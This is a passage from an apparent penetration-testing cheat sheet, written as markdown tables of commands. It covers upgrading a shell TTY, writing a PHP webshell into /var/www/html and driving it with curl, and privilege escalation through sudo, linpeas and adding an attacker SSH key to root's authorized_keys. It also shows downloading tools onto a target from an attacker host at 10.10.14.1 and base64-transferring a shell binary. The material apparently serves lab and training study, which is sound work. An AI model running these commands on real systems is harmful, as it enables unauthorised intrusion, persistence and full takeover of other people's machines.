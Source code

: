 | python -c 'import pty; pty.spawn("/bin/bash")'                                                                  | Upgrade shell TTY (1)                                   |
| ctrl+z then stty raw -echo then fg then enter twice or input reset                                              | Upgrade shell TTY (2)                                   |
| echo "\<?php system(\\$\_GET\['cmd']);?>" > /var/www/html/shell.php                                             | Create a webshell php file                              |
| curl http://SERVER\_IP:PORT/shell.php?cmd=id                                                                    | Execute a command on an uploaded webshell               |
| Privilege Escalation                                                                                            |                                                         |
| ./linpeas.sh                                                                                                    | Run linpeas script to enumerate remote server           |
| sudo -l                                                                                                         | List available sudo privileges                          |
| sudo -u user /bin/echo Hello World!                                                                             | Run a command with sudo                                 |
| sudo su -                                                                                                       | Switch to root user (if we have access to sudo su)      |
| sudo su user -                                                                                                  | Switch to a user (if we have access to sudo su)         |
| ssh-keygen -f key                                                                                               | Create a new SSH key                                    |
| echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized\_keys                                     | Add the generated public key to the user                |
| ssh [root@10.10.10.10](mailto:root@10.10.10.10) -i key                                                          | SSH to the server with the generated private key        |



[https://lolbas-project.github.io/#](https://lolbas-project.github.io)

contains a list of windows app which we may be able to leverage to perform certain functions.

* **Exposed Credentials → in log files ,** (`bash_history` in Linux and `PSReadLine` in Windows)
*   **SSH Keys → checking if we have read access in .ssh directory, if we have read accesss we can read the id\_rsa and use it to login . if we have write access to `.ssh` we can place our public key**

    `ssh-keygen -f key` this gives two file (`key` and `.pub`) , we use key to login (ssh -i) and `.pub` is kept in target machine in `.ssh/authorized_keys` folder
*   Check for cronjobs

    1. `/etc/crontab`
    2. `/etc/cron.d`
    3. `/var/spool/cron/crontabs/root`

    ## Transferring Files

    | Transferring Files                                                                                             |                                                                     |
    | -------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------- |
    | python3 -m http.server 8000                                                                                    | Start a local webserver                                             |
    | wget [http://10.10.14.1:8000/linpeas.sh](http://10.10.14.1:8000/linpeas.sh)                                    | Download a file on the remote server from our local machine         |
    | curl [http://10.10.14.1:8000/linenum.sh](http://10.10.14.1:8000/linenum.sh) -o [linenum.sh](http://linenum.sh) | Download a file on the remote server from our local machine         |
    | scp [linenum.sh](http://linenum.sh) user@remotehost:/tmp/linenum.sh                                            |                                                                     |
    | scp /path/to/local/file username@hostname:/path/to/remote/directory                                            | Transfer a file to the remote server with scp (requires SSH access) |
    | base64 shell -w 0                                                                                              | Convert a file to base64                                            |
    | echo f0VMR...SNIO...InmDwU                                                                                     | base64 -d > shell                                                   |
    | md5sum shell                                                                                                   | Check the file's md5sum to ensure it converted correctly            |

